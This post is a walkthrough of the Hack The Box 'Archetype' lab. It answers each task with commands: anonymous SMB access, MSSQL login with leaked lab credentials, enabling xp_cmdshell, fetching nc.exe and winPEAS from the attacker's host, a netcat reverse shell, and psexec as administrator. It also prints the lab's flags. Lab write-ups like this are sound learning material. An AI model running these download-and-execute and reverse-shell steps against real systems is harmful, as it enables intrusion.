 ```yaml
---
layout: post
title: "[HTB - Starting Point] Archetype"
date: 2022-10-18 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : Which TCP port is hosting a database server?  
``` text
[host] # nmap -sVC -p- --open -oA Archetype_full_scan <target_ip>
```
A : 1433  

## Task 2  
Q : What is the name of the non-Administrative share available over SMB?  
``` text
[host] # smbclient -N -L <target_ip>
```
A : backups  

## Task 3  
Q : What is the password identified in the file on the SMB share?  
``` text
[host] # smbclient -N \\\\<target_ip>\\backups
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
[host] # cat prod.dtsConfig
```
A : M3g4c0rp123  

## Task 4  
Q : What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?  
A : mssqlclient.py  

## Task 5  
Q : What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?  
``` text
[host] # impacket-mssqlclient -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@<target_ip>
SQL> ?
```
A : xp_cmdshell  

## Task 6  
Q : What script can be used in order to search possible paths to escalate privileges on Windows hosts?  
A : winpeas  

## Task 7  
Q : What file contains the administrator's password?  
``` text
# Get nc.exe and winPEASx64.exe on your host.
# Download nc.exe and winPEASx64.exe from our host to target machine.
[host] # python3 -m http.server
SQL> enable_xp_cmdshell
SQL> xp_cmdshell "powershell cd C:\Users\sql_svc\Desktop; wget http://<your_ip>:8000/nc.exe -outfile nc.exe"
SQL> xp_cmdshell "powershell cd C:\Users\sql_svc\Desktop; wget http://<your_ip>:8000/winPEASx64.exe -outfile winPEASx64.exe"

# Establish reverse shell
[host] # nc -nvlp 12345
SQL> xp_cmdshell "powershell C:\Users\sql_svc\Desktop\nc.exe -e cmd.exe <your_ip> 12345"

# from reverse shell, exec winPEASx64.exe
(reverse shell)> C:\Users\sql_svc\Desktop\winPEASx64.exe
```
A : ConsoleHost_history.txt  
(got administrator/MEGACORP_4dm1n!!)

## SUBMIT FLAG  
Q : Submit user flag  
``` text
SQL> xp_cmdshell "powershell type C:\Users\sql_svc\Desktop\user.txt"
```
A : 3e7b102e78218e935bf3f4951fec21a3  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
[host] # impacket-psexec ARCHETYPE/administrator@<target_ip>
password: MEGACORP_4dm1n!!
C:\Windows\system32> cd C:\Users\Administrator
C:\Users\Administrator> dir /s *txt*
C:\Users\Administrator> type C:\Users\Administrator\Desktop\root.txt
```
A : b91ccec3305e98240082d4474b848528  
